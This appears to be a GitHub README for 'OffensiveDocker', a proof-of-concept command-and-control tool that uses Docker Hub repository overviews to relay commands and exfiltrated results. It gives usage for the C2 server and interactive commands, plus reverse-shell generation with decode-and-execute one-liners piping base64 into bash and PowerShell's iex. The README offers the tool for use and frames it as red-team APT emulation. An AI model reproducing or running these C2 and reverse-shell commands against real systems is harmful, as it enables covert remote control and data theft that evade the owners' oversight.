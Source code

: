 # OffensiveDocker by @0xbugatti
OffensiveDocker is a tool designed to turn Docker Hub repository to secure exfiltration and C&amp;C by JSON-based requests . This script allows you to save, show , and read command execution results in addition to execution , effectively enabling my APT Emulation Skills, cloud-based C2 (Command &amp; Control) system.

# Features
- Execute new commands and append them to the repository.

- Retrieve and display C2 execution history stored in Docker Hub repository overviews.
        
- Encode Data before sent and Decode on display results from previous executions.
    
- reset db to avoid exceeding limits errors
  
- Save execution history into an SQLite database before reset .
    
- Switch between different agent repositories.
    
    
- Automatic repository creation if it doesn't exist.

# Note 
This Is Just POC of the Concept alot of Evasion Techniques could be Implemented but 
I will not disclose the special edition and awaiting that from contributers


# Usage

## Create repos 

```
python C2-Server.py --user <username> --new --repo <repo> --token <docker_hub_token>
```

- `--user` : Docker Hub username
    
- `--repo` : Repository name
    
- `--token` : Docker Hub API token
    
- `--save` : Save all C2 connection data to SQLite and exit
    
- `--read` : Read all C2 connection data and exit
    
- `--new` : Create the repository if it does not exist

## Interactive Mode

Once the script is running, you can use the following commands:

#### Available Commands:

|Command|Description|
|---|---|
|`exec "text"`|Add a new command to be executed|
|`show <ID>`|Retrieve and decode the 'result' field for the given ID|
|`setagent-repo <name>`|Change the current agent repo|
|`read`|Display all C2 connection data in a table|
|`save`|Save all connection data to an SQLite database|
|`help`|Display this help menu|
|`reset`|Reset the repository overview|
|`stop`|Exit the program|

##### Example
```
testit> exec "whoami"
testit> show 1
testit> save
testit> read
testit> stop
```


## Generating a reverse shells

### bash

```bash
python3 shellgen.py --repourl "https://hub.docker.com/v2/repositories/your-user/your-repo" --token "your-docker-token" --mode bash`
```

```bash
echo "YmFzZTY0LWVuY29kZWQtc2NyaXB0" | base64 -d | bash
```

### powershell

```bash
python3 shellgen.py --repourl "https://hub.docker.com/v2/repositories/your-user/your-repo" --token "your-docker-token" --mode powershell`
```
**Example :**



```powershell
([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("YmFzZTY0LWVuY29kZWQtc2NyaXB0"))) | iex
```

## POCs

## License

This project is licensed under the MIT License.

## Author

Developed by **0xbugatti**



